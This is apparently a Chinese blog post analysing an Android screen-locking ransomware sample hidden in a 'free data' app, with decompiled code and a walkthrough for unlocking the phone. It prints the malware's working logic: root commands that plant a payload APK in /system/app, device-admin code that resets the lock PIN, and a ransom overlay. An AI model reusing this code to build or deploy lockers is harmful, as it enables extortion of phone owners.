





## 一个免流app锁机样本的分析 ##
这是打开界面，二次元风格还不错

随意设置一下点击开启，那么会跳出超级用户权限提示，我们这里给永久记住

所以啊，一般对于一下来路不明的应用，给予权限需谨慎！！！

然后手机自动重启了

呐，给锁住了，下面我们先把apk文件拖入jeb分析一下

----------
首先来看看AndroidMainfest.xml

    <?xml version="1.0" encoding="utf-8"?>
    <manifest package="com.qqmagic" xmlns:android="http://schemas.android.com/apk/res/android">
    <uses-sdk android:minSdkVersion="8" android:targetSdkVersion="21" />
    <application android:debuggable="true" android:icon="@drawable/ic_launcher" android:label="@string/app_name" android:theme="@style/AppTheme">
        <activity android:label="@string/app_name" android:name=".c">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
    </manifest>

这里可以看出app的入口是c类，应用有如下权限：

允许程序打开网络套接字

    android.permission.INTERNET 

允许程序写入外部存储，如SD卡上写文件

    android.permission.WRITE_EXTERNAL_STORAGE

接下来，跟进C类查看

    package com.qqmagic;
    
    import LogCatBroadcaster;
    import android.app.Activity;
    import android.os.Bundle;
    import android.os.Environment;
    import android.view.View$OnClickListener;
    import android.view.View;
    import android.widget.Button;
    import android.widget.EditText;
    import java.io.FileOutputStream;
    import java.io.IOException;
    import java.io.InputStream;
    
    public class c extends Activity {
    final class ButtonClickListener implements View$OnClickListener {
        private final c this$0;

        public ButtonClickListener(c arg6) {
            super();
            c.this = arg6;
        }

        static c access$0(ButtonClickListener arg4) {
            return arg4.this$0;
        }
	  //一个按钮点击事件
        @Override public void onClick(View arg8) {
            new b().rootShell(); //new了一个b类，并且调用它的rootshell()方法
            a.deleteFile(c.this.file);//调用了a类的deleteFile()方法
        }
    }

那么我们跟进b类查看rootShell()方法：
发现b类里面定义了一大堆静态方法，都是一些检查权限，初始化命令的一些方法，重点是这个：

    void rootShell() {
        b.execCommand(new String[]{"mount -o rw,remount /system", "mount -o rw,remount /system/app", "cp /sdcard/zihao.l /system/app/", "chmod 777 /system/app/zihao.l", "mv /system/app/zihao.l /system/app/zihao.apk", "chmod 644 /system/app/zihao.apk", "reboot"}, true);
    }
这里熟悉指令的可以看出，它重新挂载了/system目录，然后复制zihao.l到/system/app下 最后将zihao.1文件改为zihao.apk文件，并且将这个文件的权限定义为可读，可写，可执行，然后重启，那么这里就很可疑了

继续查看a类：

    public static boolean deleteFile(String arg7) { //传入v7
        boolean v0;
        File v1 = new File(arg7);  //新建一个名为v7的文件v1
        if(!v1.exists() || !v1.isFile()) { // 不正常或者不存在
            v0 = false;  
        }  
        else if(v1.delete()) { //删除v1
            v0 = true;
        }
        else {
            v0 = false;
        }

        return v0;  //返回真或者假
    }
这里就是一个判断，下面继续跟进c类分析：

    private Button a;
    private Button b;
    private EditText c;
    a del;  //声明一个a类变量del
    String file;
    String path;
    private Button q;
    private EditText s;
    private EditText t;
    private EditText w;
    private Button z;

    public c() {
        super();
        this.del = new a();
        this.path = this.g();
        this.file = new StringBuffer().append(this.path).append("/zihao.l").toString();
    }//这里意图很明显，在路径后面添加/zihao.l

    private void d(String arg13) throws IOException {
        FileOutputStream v3 = new FileOutputStream(arg13);
        InputStream v2 = this.getAssets().open("ijm-x86.so");//这里将ijm-x86.so文件写入
        byte[] v4 = new byte[1024];
        int v5;
        for(v5 = v2.read(v4); v5 > 0; v5 = v2.read(v4)) {
            v3.write(v4, 0, v5);
        }

        v3.flush();
        v2.close();
        v3.close();
    }
    //获取存储路径的方法
    public final String g() {
        String v1 = null;
        if(Environment.getExternalStorageState().equals("mounted")) {
            v1 = Environment.getExternalStorageDirectory().getAbsolutePath();
        }

        return v1;
    }

    @Override protected void onCreate(Bundle arg10) {
        c v0 = this;
        LogCatBroadcaster.start(v0);
        super.onCreate(arg10);
        v0.setContentView(2130903040);
        v0.b = v0.findViewById(2131099651);
        v0.t = v0.findViewById(2131099648);
        v0.b.setOnClickListener(new ButtonClickListener(v0));
        v0.q = v0.findViewById(2131099649);
        v0.w = v0.findViewById(2131099648);
        v0.q.setOnClickListener(new ButtonClickListener(v0));
        v0.a = v0.findViewById(2131099650);
        v0.s = v0.findViewById(2131099648);
        v0.a.setOnClickListener(new ButtonClickListener(v0));
        v0.z = v0.findViewById(2131099652);
        v0.c = v0.findViewById(2131099648);
        v0.z.setOnClickListener(new ButtonClickListener(v0));
        c v4 = v0;
        try {
            v4.d(new StringBuffer().append(v0.path).append("/zihao.l").toString());
        }
        catch(IOException v4_1) {
        }
    }

    @Override protected void onDestroy() {
        a.deleteFile(this.file);
        super.onDestroy();
    }
    }

那么大致分析完了，我们来看看ijm-x86.so文件，最初以为是爱家密的壳，后来，jeb识别出他是一个apk文件

那么改下后缀名，运行下看看

----------

发现是一个秒抢红包app，并且要求激活设备管理器，安装后模机器卡住了，重启后就变成了这样：

用jeb打开这个apk进行分析

----------
同刚才一样，先分析AndroidMainifest.xml文件：

    <?xml version="1.0" encoding="utf-8"?>
    <manifest package="com.h" xmlns:android="http://schemas.android.com/apk/res/android">
    <uses-permission android:name="android.permission.SEND_SMS" />
    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED" />
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
    <uses-permission android:name="android.permission.MOUNT_UNMOUNT_FILESYSTEMS" />
    <uses-permission android:name="android.permission.VIBRATE" />
    <uses-sdk android:minSdkVersion="8" android:targetSdkVersion="21" />
    <application android:debuggable="true" android:icon="@drawable/icon" android:label="@string/app_name" android:theme="@style/AppTheme">
        <activity android:label="@string/app_name" android:name=".M">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        <service android:name="s" />
        <receiver android:name="bbb">
            <intent-filter android:priority="2147483647">
                <action android:name="android.intent.action.BOOT_COMPLETED" />
            </intent-filter>
        </receiver>
        <receiver android:description="@string/hello" android:name=".MyAdmin">
            <meta-data android:name="android.app.device_admin" android:resource="@xml/my_admin" />
            <intent-filter>
                <action android:name="android.app.action.DEVICE_ADMIN_ENABLED" />
            </intent-filter>
        </receiver>
    </application>
    </manifest>

首先，入口为M类，下面来分析一下权限：

允许发送短信

    <uses-permission android:name="android.permission.SEND_SMS" />

允许程序打开一个窗口

    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
    
允许一个程序接收到 ACTION_BOOT_COMPLETED广播在系统完成启动

    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED" />

访问网络连接，可能产生GPRS流量

    <uses-permission android:name="android.permission.INTERNET" />

获取网络信息状态，如当前的网络连接是否有效

    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />

允许写入外部设备

    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />

挂载、反挂载外部文件系统

    <uses-permission android:name="android.permission.MOUNT_UNMOUNT_FILESYSTEMS" />

允许振动

    <uses-permission android:name="android.permission.VIBRATE" />

----------

可以发现这里大部分权限都会产生一定的危害，所以给予权限时一定要小心谨慎 ，特别是一些未知的app

下面看看这个：

    <service android:name="s" />

    <receiver android:name="bbb">
        <intent-filter android:priority="2147483647">
            <action android:name="android.intent.action.BOOT_COMPLETED" />
        </intent-filter>
    </receiver>
    <receiver android:description="@string/hello" android:name=".MyAdmin">
        <meta-data android:name="android.app.device_admin" android:resource="@xml/my_admin" />
        <intent-filter>
            <action android:name="android.app.action.DEVICE_ADMIN_ENABLED" />
        </intent-filter>
    </receiver>

这里注册了一个服务以及两个广播接收器

下面跟进M类：

    package com.h;
    
    import LogCatBroadcaster;
    import android.app.Activity;
    import android.content.ComponentName;
    import android.content.Context;
    import android.content.Intent;
    import android.os.Bundle;
    import android.os.Parcelable;
    
    public class M extends Activity {
    public M() {
        super();
    }

    private void activiteDevice() {
        Class v8;
        M v0 = this;
        Intent v1 = new Intent("android.app.action.ADD_DEVICE_ADMIN");
        ComponentName v5 = null;
        ComponentName v6 = null;
        M v7 = v0;
        try {
            v8 = Class.forName("com.h.MyAdmin"); //判断该类是否存在
        }
        catch(ClassNotFoundException v5_1) {
            throw new NoClassDefFoundError(v5_1.getMessage());
        }

        super(((Context)v7), v8);
        v1.putExtra("android.app.extra.DEVICE_ADMIN", ((Parcelable)v5));
        v0.startActivityForResult(v1, 0); 隐式启动com.h.MyAdmin
    }

    @Override public void onCreate(Bundle arg6) {
        LogCatBroadcaster.start(this);
        super.onCreate(arg6);
        this.activiteDevice();
    }
    }

这里主要的作用可以看出来是隐式启动com.h.MyAdmin,跟进分析：

    public class MyAdmin extends DeviceAdminReceiver {
    public MyAdmin() {
        super();
    }
	//这里是点了不激活设备管理器后调用的方法
    @Override public CharSequence onDisableRequested(Context arg10, Intent arg11) {
        String v4 = Integer.toString(2070);
        this.getManager(arg10).lockNow();
        this.getManager(arg10).resetPassword(v4, 0); //这里将屏幕锁住，并将锁屏密码设置为2070
        return super.onDisableRequested(arg10, arg11);
    }
	//激活后调用的方法
    @Override public void onEnabled(Context arg17, Intent arg18) {
        Class v11;
        MyAdmin v0 = this;
        Context v1 = arg17;
        Intent v2 = arg18;
        String v4 = Integer.toString(2070);
        Intent v8 = null;
        Intent v9 = null;
        Context v10 = v1;
        try {
            v11 = Class.forName("com.h.s");//寻找这个类
        }
        catch(ClassNotFoundException v8_1) {
            throw new NoClassDefFoundError(v8_1.getMessage());
        }

        super(v10, v11);
        v8.setFlags(268435456); 
        v1.startService(v8); //启动这个service
        v0.getManager(v1).resetPassword(v4, 0);
        super.onEnabled(v1, v2);
    }
	锁屏密码改变
    @Override public void onPasswordChanged(Context arg10, Intent arg11) {
        String v4 = Integer.toString(2070);
        this.getManager(arg10).lockNow();
        this.getManager(arg10).resetPassword(v4, 0);//不激活，锁屏密码照样设置为2070
        super.onPasswordChanged(arg10, arg11);
    }

    @Override public void onReceive(Context arg8, Intent arg9) {
        Log.i("------", "onReceive-----");
        super.onReceive(arg8, arg9);
    }
    }

可以发现这里将锁屏 密码设置为了2070，并且试图调用com.h.s类，那么我们跟进分析：

进入com.h.s类，在最下面找到了onStart方法：

    @Override public void onStart(Intent arg8, int arg9) {
    super.onStart(arg8, arg9);
    this.c();
    }

继续跟进c()方法：

    private void c() {
        s v0 = this;
        v0.wmParams = new WindowManager$LayoutParams();
        Application v6 = v0.getApplication();
        v0.getApplication();
        v0.mWindowManager = v6.getSystemService(Context.WINDOW_SERVICE);
        v0.wmParams.type = 2010;
        v0.wmParams.format = 1;
        v0.wmParams.flags = 1280;
        v0.wmParams.gravity = 49;
        v0.wmParams.x = 0;
        v0.wmParams.y = 0;
        v0.wmParams.width = -1;
        v0.wmParams.height = -1;
        v0.mFloatLayout = LayoutInflater.from(v0.getApplication()).inflate(2130903041, null);//加载布局，
        MediaPlayer v2 = MediaPlayer.create(v0, 2131099648);
        v2.setLooping(true);
        v2.start();
        v0.mWindowManager.addView(v0.mFloatLayout, v0.wmParams);
        v0.bt = v0.mFloatLayout.findViewById(2131361794);
        v0.ed = v0.mFloatLayout.findViewById(2131361792);
        v0.tv = v0.mFloatLayout.findViewById(2131361793);
        s v5 = v0;
        try {
            v5.ed.setHint(v0.des.decrypt("1d836c668669c91d"));
            v0.tv.append(v0.des.decrypt("加群562437579"));
        }
        catch(Exception v5_1) {
        }
		//上面都是一些加载布局的作用，可以在resource文件夹中找到对应的
        v0.bt.setOnClickListener(new 100000001(v0));
        v5 = v0;
        try {
            v5.tv.append(new StringBuffer().append("\n").append(v0.des.decrypt("06812251e1b3f7584b2b95295befdafe")).toString());
            v0.tv.append(new StringBuffer().append(new StringBuffer().append("\n").append(v0.des.decrypt("c238c3a8b991ef7b58bf03ec28d82946")).toString()).append(v0.share.getLong("m", ((long)0))).toString());//根据后面的可知这里会显示那串共享的随机数，根据后文的布局分析，就是死逼代码
        }
        catch(Exception v5_1) {
        }
    }

继续往下分析，那么这里是关键了：

    @Override public void onCreate() {
        s v0 = this;
        super.onCreate();
        v0.pass = ((long)(Math.random() * (((double)1000000))));//一个随机数
        v0.passw = new Long(v0.pass - (((long)112)));//随机数-112
        v0.des = new DU("des");//这里调用了一个加密类，具体算法这里不分析了，可以跟进看一下
        s v4 = v0;
        try {
            v4.des = new DU(v0.des.decrypt("78d30a56e58aa1de"));
        }
        catch(Exception v4_1) {
        }

        v0.share = v0.getSharedPreferences("Flowers", 0);
        v0.editor = v0.share.edit();
        v0.getApplication().getSystemService("vibrator").vibrate(new long[]{((long)100), ((long)1500), ((long)100), ((long)1500)}, 0);
        if(v0.share.getLong("m", ((long)0)) == (((long)0))) {
            v0.editor.putLong("m", v0.pass);
            v0.editor.commit();
            v4 = v0;
            try {
                v4.editor.putString("passw", v0.des.encrypt(new StringBuffer().append("").append(v0.passw).toString()));//加密
                v0.editor.commit();
            }
            catch(Exception v4_1) {
            }

            if(v0.is(v0.getApplicationContext())) {
                v0.ppss = new StringBuffer().append(v0.share.getLong("m", ((long)8))).append("").toString();
                v4 = v0;
                s v5 = v0;
                try {
                    v4.password = v5.des.decrypt(v0.share.getString("passw", ""));//解密，可以发现，前面的加密操作压根没啥用，因为它这里又解密了，继续分析
                }
                catch(Exception v4_1) {
                }

                new 100000000(v0).start();
                return;
            }

            v4 = v0;
            try {
                v4.editor.putLong("m", Long.parseLong(v0.des.decrypt("5a15e58cc8db8d1c700ecb6bb7b627a9")));
                v0.editor.commit();
                v0.editor.putString("passw", "76df8ee7fc4fd40dd4604dee3003ae9c");//
                v0.editor.commit();
            }
            catch(Exception v4_1) {
            }
        }
    }

这里看出一些加密的操作，那么passw就是随机数-112了

接下来，回到前面：

    public class s extends Service {
    class 100000000 extends Thread {
        private final s this$0;

        100000000(s arg6) {
            super();
            s.this = arg6;
        }

        static s access$0(100000000 arg4) {
            return arg4.this$0;
        }

        public void run() {
        }
    }

    class 100000001 implements View$OnClickListener {
        private final s this$0;

        100000001(s arg6) {
            super();
            s.this = arg6;
        }

        static s access$0(100000001 arg4) {
            return arg4.this$0;
        }
	   //这里定义了一个点击事件
        @Override public void onClick(View arg10) {
            100000001 v0 = this;
            100000001 v4 = v0;
            try {// 如果输入的等于passw
                if(!v4.this$0.ed.getText().toString().equals(v0.this$0.des.decrypt(v0.this$0.share.getString("passw", "")))) {
                    return;
                }

                v0.this$0.mWindowManager.removeView(v0.this$0.mFloatLayout);//那么移除这个加载的布局
                v0.this$0.stopSelf();
            }
            catch(Exception v4_1) {
            }
        }
    }

这里刚刚说了我们可以去resource里查看加载的布局，通过对应的id，那么刚刚那个id是2130903041，转换为十六进制就是7F030001,:

在layout里打开这个：

    <?xml version="1.0" encoding="utf-8"?>
    <LinearLayout android:layout_height="fill_parent" android:layout_width="fill_parent" android:orientation="vertical" xmlns:android="http://schemas.android.com/apk/res/android">
    <LinearLayout android:background="@drawable/image_3" android:gravity="center|top" android:layout_height="fill_parent" android:layout_width="fill_parent" android:orientation="vertical">
        <LinearLayout android:background="@drawable/bj" android:gravity="center" android:layout_height="wrap_content" android:layout_marginTop="5.0dip" android:layout_width="fill_parent" android:orientation="vertical">
            <TextView android:layout_height="2.0dip" android:layout_width="2.0dip" />
            <EditText android:id="@id/ed" android:layout_height="4.0dip" android:layout_marginEnd="200.0dip" android:layout_width="200.0dip" android:textColor="#ff000000" />
            <TextView android:layout_height="wrap_content" android:layout_width="wrap_content" android:shadowColor="#ff00fff9" android:shadowDx="-1.0" android:shadowDy="-1.0" android:shadowRadius="2.0" android:text="走自己的路，让煞笔去说吧" android:textAppearance="?android:textAppearanceLarge" android:textColor="#ff00fff9" android:textSize="23.0sp" />
            <TextView android:layout_height="wrap_content" android:layout_width="wrap_content" android:shadowColor="#ff00fff9" android:shadowDx="-1.0" android:shadowDy="-1.0" android:shadowRadius="2.0" android:text="五块钱解锁" android:textAppearance="?android:textAppearanceLarge" android:textColor="#ff00ebeb" android:textSize="20.0sp" />
        </LinearLayout>
        <TextView android:background="@drawable/bj" android:layout_height="wrap_content" android:layout_width="wrap_content" android:shadowColor="#ff00fff9" android:shadowDx="-1.0" android:shadowDy="-1.0" android:shadowRadius="2.0" android:text="無回qq599509367" android:textColor="#ff00cfcf" android:textSize="20.0sp" />
        <LinearLayout android:background="@drawable/layout2" android:gravity="bottom|center" android:layout_height="fill_parent" android:layout_width="fill_parent" android:orientation="vertical">
            <TextView android:background="@drawable/bj" android:id="@id/tv" android:layout_height="wrap_content" android:layout_width="280.0dip" android:shadowColor="#ff0a0a0a" android:shadowRadius="3.0" android:textAppearance="?android:textAppearanceLarge" android:textColor="#ffffff00" android:textSize="19.0sp" />
            <LinearLayout android:layout_height="wrap_content" android:layout_width="wrap_content" android:orientation="horizontal">
                <LinearLayout android:background="@drawable/bj" android:layout_height="200.0dip" android:layout_width="40.0dip" android:orientation="vertical">
                    <TextView android:layout_height="wrap_content" android:layout_marginEnd="10.0dip" android:layout_width="wrap_content" android:text="扫" android:textColor="#fffa5fea" android:textSize="25.0sp" />
                    <TextView android:layout_height="wrap_content" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="码" android:textColor="#fff351b7" android:textSize="25.0sp" />
                    <TextView android:layout_height="wrap_content" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="支" android:textColor="#ffff3c66" android:textSize="25.0sp" />
                    <TextView android:layout_height="wrap_content" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="付" android:textColor="#ffff000c" android:textSize="25.0sp" />
                </LinearLayout>
                <Button android:background="@drawable/image_5" android:id="@id/bt" android:layout_height="200.0dip" android:layout_width="200.0dip" android:shadowColor="#ff000000" android:shadowRadius="2.0" android:textColor="#ff000000" />
                <LinearLayout android:background="@drawable/bj" android:layout_height="200.0dip" android:layout_width="40.0dip" android:orientation="vertical">
                    <TextView android:layout_height="wrap_content" android:layout_marginStart="10.0dip" android:layout_width="wrap_content" android:text="即" android:textColor="#fffa5fea" android:textSize="25.0sp" />
                    <TextView android:layout_height="wrap_content" android:layout_marginStart="10.0dip" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="可" android:textColor="#fff351b7" android:textSize="25.0sp" />
                    <TextView android:layout_height="wrap_content" android:layout_marginStart="10.0dip" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="解" android:textColor="#ffff3c66" android:textSize="25.0sp" />
                    <TextView android:layout_height="wrap_content" android:layout_marginStart="10.0dip" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="锁" android:textColor="#ffff000c" android:textSize="25.0sp" />
                </LinearLayout>
            </LinearLayout>
        </LinearLayout>
    </LinearLayout>
    </LinearLayout>
那么，布局出来了，可以看到是相对应的

你会发现，那个二维码就是按钮，最后输入框在哪？
把刚刚的布局拷到一个新建的android项目里，然后在AndroidStudio里看看：

那么布局对应之前，在xml文件里并没有给出死逼代码的显示，而是在java类里设置的，并且可以发现最上面有一个输入框
那么密码就是死逼代码-112，分析完毕，开始解锁：

----------

855062-112=854950，那么照准位置输入：

那么解开了！可以看到，锁住你的那个秒抢红包app，那么删掉他即可

